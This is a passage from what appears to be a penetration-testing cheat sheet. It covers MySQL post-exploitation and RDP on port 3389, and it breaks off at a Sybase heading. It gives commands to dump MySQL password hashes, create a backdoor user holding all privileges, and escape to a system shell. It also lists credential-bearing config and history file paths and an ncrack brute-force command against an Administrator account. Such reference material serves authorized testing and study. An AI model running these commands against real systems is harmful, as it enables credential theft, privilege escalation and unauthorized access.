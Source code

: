 ```
    mysql> select user();
    mysql> select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';
Access passwords
    mysql> use mysql
    mysql> select user,password from user;
Create a new user and grant him privileges
    mysql>create user test identified by 'test';
    mysql> grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
Break into a shell
    mysql> \! cat /etc/passwd
    mysql> \! bash
```
### Configuration Files
* windows
    * config.ini
  * my.ini
    * windows\my.ini
    * winnt\my.ini
  * <InstDir>/mysql/data/
* unix
  * my.cnf
    * /etc/my.cnf
    * /etc/mysql/my.cnf
    * /var/lib/mysql/my.cnf
    * ~/.my.cnf
    * /etc/my.cnf
* Command History
  * ~/.mysql.history
* Log Files
  * connections.log
  * update.log
  * common.log



## 3389 - RDesktop
### Network level auth NLA
```bash
nmap -p 3389 --script rdp-enum-encryption <IP>
```
### Brute Force
```bash
ncrack -vv --user Administrator -P /root/passwords.txt rdp://192.168.1.101
```



## 5000+ - Sybase
### Enumeration
